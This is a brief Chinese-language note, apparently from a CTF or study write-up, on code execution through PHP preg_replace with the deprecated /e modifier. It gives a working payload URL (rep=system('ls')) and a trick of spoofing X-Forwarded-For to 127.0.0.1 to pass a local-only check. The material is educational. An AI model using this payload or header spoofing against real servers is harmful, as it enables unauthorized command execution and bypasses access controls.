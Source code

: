 ## preg_replace():

![](images/D4D6814D9CC04692B9B2283CA267BF70clipboard.png)



原理：preg_replce正则表达式部分包含e参数的时候，进行替换的部分会被当做代码执行。



preg_replace 函数的用法



使用burpsuite抓包，将X_FORWARDED_FOR设置为127.0.0.1，并且将url设置为 

/index.php?pat=/(.*)/e&rep=system('ls')&sub=a 

查看文件列表



